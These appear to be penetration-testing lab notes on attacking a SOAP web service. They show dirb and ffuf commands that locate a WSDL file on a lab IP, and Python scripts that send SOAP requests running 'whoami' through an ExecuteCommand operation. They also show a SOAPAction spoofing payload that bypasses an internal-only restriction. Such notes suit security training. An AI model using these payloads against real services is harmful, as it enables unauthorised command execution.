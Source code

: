[[xml]]
#### WSDL file location
```bash
dirb http://10.129.164.82:3002

+ http://<TARGET IP>:3002/wsdl (CODE:200|SIZE:0)                            
DOWNLOADED: 4612 - FOUND: 1
```

If curl `<ip>/wsdl` response is empty:
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://10.129.164.82:3002/wsdl?FUZZ' -fs 0 -mc 200
```

`curl http://10.129.164.82:3002/wsdl?wsdl`

File may be found at example.wsdl, ?wsdl, /example.disco, ?disco 

##### Request example
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
##### SOAPAction spoofing
If the request abive is restricted to the internal network only, we can bypass it:
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

